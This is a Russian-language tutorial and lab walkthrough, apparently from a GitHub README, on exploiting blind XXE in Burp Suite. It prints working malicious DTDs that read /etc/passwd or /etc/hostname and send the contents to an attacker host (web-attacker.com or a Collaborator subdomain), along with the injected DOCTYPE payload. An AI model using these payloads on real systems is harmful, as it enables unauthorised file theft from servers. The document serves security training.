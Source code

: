 # Эксплуатация XXE для извлечения файлов, выполнения SSRF и работы со слепым XXE 🚨

XXE (XML External Entity) — это уязвимость, позволяющая злоумышленникам извлекать файлы с сервера, выполнять атаки SSRF и использовать "слепые" уязвимости XXE. Это руководство охватывает все эти сценарии с подробными примерами. 💡

---

Использование слепого XXE для извлечения данных за пределы канала

Обнаружение слепой уязвимости XXE с помощью внеполосных методов — это очень хорошо, но это не демонстрирует, как уязвимость может быть использована для извлечения данных. Злоумышленник может использовать вредоносный DTD, размещённый на своей системе, и вызвать его из XXE полезной нагрузки для извлечения данных.

### Пример вредоносного DTD

Вредоносный DTD для извлечения содержимого файла `/etc/passwd` может выглядеть так:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Этот DTD выполняет следующие шаги:

1. Определяет параметрическую сущность `file`, содержащую содержимое файла `/etc/passwd`.
2. Определяет сущность `eval`, которая объявляет динамическую сущность `exfiltrate`. Эта сущность отправляет содержимое файла на сервер злоумышленника через HTTP-запрос.
3. Использует сущность `eval`, чтобы объявить `exfiltrate`.
4. Вызывает `exfiltrate`, отправляя данные файла злоумышленнику.

### Шаги выполнения

1. **Размещение вредоносного DTD**: Злоумышленник размещает вредоносный DTD на своём сервере, например, по URL:
   ```
   http://web-attacker.com/malicious.dtd
   ```

2. **Отправка полезной нагрузки**: Злоумышленник отправляет приложению следующую полезную нагрузку XXE:
   ```xml
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
   ```
   Эта нагрузка вызывает парсер XML для загрузки DTD с сервера злоумышленника и выполнения его содержимого.

3. **Получение данных**: В результате выполнения DTD содержимое файла `/etc/passwd` отправляется на сервер злоумышленника.

### Ограничения метода

Некоторые парсеры XML могут блокировать символы новой строки, присутствующие в файле `/etc/passwd`. В таких случаях можно извлечь файл без новых строк, например `/etc/hostname`, или использовать протокол FTP вместо HTTP.

---

## Пример лабораторной работы

В этой лабораторной работе функция «Проверка запасов» анализирует входные данные XML, но не отображает результат.

Для решения лабораторной работы извлеките содержимое файла `/etc/hostname`.

### Шаги выполнения

### 1. Выбор продукта
Откройте список продуктов и выберите любой из них:

![Список продуктов](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Нажатие кнопки
На странице продукта нажмите кнопку **"Проверить наличие на складе"**, предварительно включив прокси (например, Burp Suite):

![Кнопка проверки наличия](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Подготовка DTD
Создайте вредоносный DTD, используя поддомен Burp Collaborator:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://YOUR-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfiltrate;
```

Разместите этот файл на вашем сервере.

![Создание вредоносного DTD](https://github.com/user-attachments/assets/2d285da5-b706-498d-b9d1-b063b2144334)

---

### 4. Перехват запроса
Перейдите в **Proxy → HTTP History**, выберите POST-запрос к `/product/stock` и отправьте его в **Repeater**:

![POST-запрос](https://github.com/user-attachments/assets/1ec0f44b-554a-44e4-ad05-c76a4c4857a8)

---

### 5. Вставка полезной нагрузки
Добавьте следующее определение внешней сущности между декларацией XML и элементом `stockCheck`:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

![Вставка полезной нагрузки](https://github.com/user-attachments/assets/8d98ee3a-4293-4d50-8625-7b0f8f900f60)

---

### 6. Проверка Collaborator
Перейдите на вкладку **Collaborator** и нажмите **"Poll now"**. Если взаимодействия не отображаются, подождите несколько секунд и попробуйте снова. Вы должны увидеть DNS- и HTTP-взаимодействия, инициированные приложением в результате вашей полезной нагрузки.

![Проверка взаимодействий](https://github.com/user-attachments/assets/95a9db28-ab4b-4259-8e06-871d778d7741)

---

## Полезные советы 🔍

- **Проверяйте каждый узел XML** на возможность использования сущностей.
- **Используйте прокси-инструменты** (например, Burp Suite) для анализа и изменения запросов.
- **Тестируйте последовательность действий**: от вставки сущностей до проверки результатов в Collaborator.
